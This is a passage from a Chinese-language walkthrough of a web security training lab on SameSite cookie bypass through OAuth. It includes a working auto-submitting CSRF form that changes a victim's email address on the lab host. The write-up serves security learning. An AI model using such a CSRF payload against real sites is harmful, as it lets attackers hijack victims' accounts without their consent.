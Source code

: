 [![](assets/1705890866-60f7765402c5aa9d03d89699be4fe027.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111521-d0460de0-b5af-1.png)  
这里对OAuth的回调响应中也没有明确指定任何SameSite限制  
[![](assets/1705890866-5b52e44fbe519ce87b507be38b21c605.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111537-d9fa4432-b5af-1.png)  
在漏洞利用服务器中使用以下模板创建用于更改受害者电子邮件地址的CSRF攻击

```plain
<script>
    history.pushState('', '', '/')
</script>
<form action="https://0ac500600323bab982e6fbd7003000a0.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

[![](assets/1705890866-2aefc81a131e7ece519abd11053a2467.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111556-e54b43ea-b5af-1.png)  
退出账户时会有一次登录social media的操作：
